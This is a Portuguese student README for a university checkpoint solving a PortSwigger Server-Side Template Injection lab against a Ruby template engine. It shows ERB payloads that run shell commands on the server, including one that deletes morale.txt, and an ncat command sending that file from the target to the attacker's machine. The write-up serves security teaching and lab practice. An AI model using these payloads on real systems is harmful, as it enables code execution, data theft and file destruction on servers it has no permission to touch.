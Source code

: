# FIAP - 3° Checkpoint - Server-Side Template Injection

## Introdução
Checkpoint realizado com o intuito de colocar em prática todos os conhecimentos sobre vulnerabilidades web na matéria de Web Exploit, ministrada pelo [Professor Rafael Trassi](https://www.linkedin.com/in/rafael-trassi/).

## Feito por

- Matheus Rosa

## Vulnerabilidade

A Server-Side Template Injection ocorre quando um invasor é capaz de usar a sintaxe nativa do modelo para injetar uma carga maliciosa em um modelo, que é então executado no lado do servidor.

Os mecanismos de modelo são projetados para gerar páginas da web combinando modelos fixos com dados voláteis. Ataques de injeção de modelo no servidor podem ocorrer quando a entrada do usuário é concatenada diretamente em um modelo, em vez de ser transmitida como dados. Isso permite que invasores injetem diretivas de modelo arbitrárias para manipular o mecanismo de modelo, muitas vezes permitindo que eles assumam o controle total do servidor. Como o nome sugere, as cargas úteis de injeção de modelo no lado do servidor são entregues e avaliadas no lado do servidor, tornando-as potencialmente muito mais perigosas do que uma injeção típica de modelo no lado do cliente.

## Print da Conta 
* Envie um print da área de detalhes da conta após ter logado
<img src="imagens/Imagem1.png">

## Exercício 01 - Lab

Link: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic  

### 01 - Uma captura de tela completa com a mensagem de erro produzida pela aplicação quando um item está esgotado no estoque.

<img src="imagens/Imagem2.png">

### 02 - Uma captura de tela completa como prova de que você consegue realizar operações simples ou multiplicar uma string (exemplo: 'FIAP' * 10). Exiba o seu payload na barra de endereços.

<img src="imagens/Imagem3.png">

### 03 - Envie um print mostrando qual o hash MD5 do arquivo morale.txt.

Comando Utilizado: 
```
<%= system('md5sum morale.txt') %>
```

<img src="imagens/Imagem4.png">

### 04 - Responda qual o tipo de arquivo é o morale.txt.

Comando Utilizado: 
```
<%= system('file morale.txt') %>
```
R: morale.txt é um arquivo openssl enc'd data with salted password

### 05 - Demonstre como você copiaria o arquivo morale.txt do servidor do lab. Também forneça prova de que este arquivo foi copiado na sua própria máquina demonstrando as saídas dos comandos file, ls e md5sum no seu próprio terminal.

R: Para transferir o arquivo do servidor para a minha maquina local eu utilizaria o ncat. Basicamente abriria uma porta em modo listening no meu kali e na URL passaria o comando:

Kali:
```
ncat -nvlp 1337
````
Este comando irá abrir e ficar escutando a porta 1337 da máquina local

Máquina Alvo:
```
ncat IP < morale.txt
````
O comando ira se conectar com o Kali e enviará o arquivo morale.txt após conexão.

## Prints

  
- md5sum
  <img src="imagens/Imagem4.png">
- file
  <img src="imagens/Imagem5.png">
- ls
  <img src="imagens/Imagem6.png">


### 06 - Forneça o payload utilizado para completar o primeiro laboratório e a evidência que você conseguiu completá-lo.

<%= system(' rm morale.txt ') %>

<img src="imagens/Imagem7.png">

### 07 - Em qual linguagem o sistema de template está sendo executado?

R: Ele foi escrito em ruby

<img src="imagens/Imagem8.png">
